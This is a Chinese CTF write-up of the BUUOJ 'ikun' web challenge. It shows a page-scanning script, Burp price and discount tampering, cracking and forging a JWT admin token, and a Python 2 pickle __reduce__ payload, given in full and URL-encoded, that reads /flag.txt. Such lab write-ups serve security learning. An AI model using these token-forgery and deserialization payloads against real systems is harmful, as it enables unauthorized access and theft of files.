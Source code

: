 # 3.10~3.16 WEEK3

## 概况

继续pickle反序列化



## wp

### ikun

ikun应援网站，往下翻可以购买东西，右键查看源码，有些提示，但都没有用。在募集资金的下面发现了提示：一定要买到lv6!!!

一页一页找不太现实，写一个脚本自己翻页找lv6吧。

![image-20250315232723962](image/AAA3.103.16 WEEK3/image-20250315232723962.png)

右键发现了写lv6是图片，写个脚本找一下

```python
import requests

url='http://12727098-ddda-4c92-90fd-0244e4cc9c81.node5.buuoj.cn:81/shop?page='

i=1

while i<1000:

  try:

​    r=requests.get(url+str(i))

​    if 'lv6.png' in r.text:

​      print (f"lv6在{i}页")

​      break

​    else:

​      i+=1

  except requests.exceptions.RequestException:

​    print("failed")
```

发现181页有lv6

点击购买，弹出来了登录界面，先随便注册一个账号，登陆后发现余额是1000元，1145141919元的lv6肯定买不起。bp抓包改一下价格试试。

改完价格后发现购物车被清空了，只好再改一下折扣了：

![image-20250315232739525](image/AAA3.103.16 WEEK3/image-20250315232739525.png)

send以后响应头的码变302重定向了

![image-20250315232747575](image/AAA3.103.16 WEEK3/image-20250315232747575.png)

打开这个location地址看看，发现需要admin访问,bp再抓包一下，看看有没有session，cookie之类的:

![image-20250315232759518](image/AAA3.103.16 WEEK3/image-20250315232759518.png)

没看到session，却看到一个JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IjEifQ.8iYM4QgkAw4NpjpP8tEn7MBbZoF-Kj8YRbosz3Qrr-Q

在线解密一下：

![image-20250315232808254](image/AAA3.103.16 WEEK3/image-20250315232808254.png)

可以看出来，我们还需要一个密钥:

cd c-jwt-cracker

make

./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IjEifQ.8iYM4QgkAw4NpjpP8tEn7MBbZoF-Kj8YRbosz3Qrr-Q

![image-20250315232817011](image/AAA3.103.16 WEEK3/image-20250315232817011.png)

可得密钥为1Kun

把1改成admin：

![image-20250315232828924](image/AAA3.103.16 WEEK3/image-20250315232828924.png)

得到新的jwt：eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo

hackbar传参得到了回显，审计代码即可发现提示：

![image-20250315232839696](image/AAA3.103.16 WEEK3/image-20250315232839696.png)

打开/static/asd1f654e683wq/www.zip，看看好东西，即可在本地得到源码

www\sshop\views目录下发现有个Admin.php，打开审计代码：

```python
import tornado.web

from sshop.base import BaseHandler

import pickle

import urllib

 

class AdminHandler(BaseHandler):

  @tornado.web.authenticated

  def get(self, *args, **kwargs):

​    if self.current_user == "admin":

​      return self.render('form.html', res='This is Black Technology!', member=0)

​    else:

​      return self.render('no_ass.html')

  @tornado.web.authenticated

  def post(self, *args, **kwargs):

​    try:

​      become = self.get_argument('become')

​      p = pickle.loads(urllib.unquote(become))

​      return self.render('form.html', res=p, member=1)

​    except:

​      return self.render('form.html', res='This is Black Technology!', member=0)
```

发现存在pickle反序列化

```python
exp：（特备注明：需要在python2的环境下编辑）

import pickle

import urllib 

class payload(object):

  def __reduce__(self):

​    return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())

print(urllib.quote(a))
```

bp抓包修改become参数

payload：

```
become=c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```

![image-20250315232853149](image/AAA3.103.16 WEEK3/image-20250315232853149.png)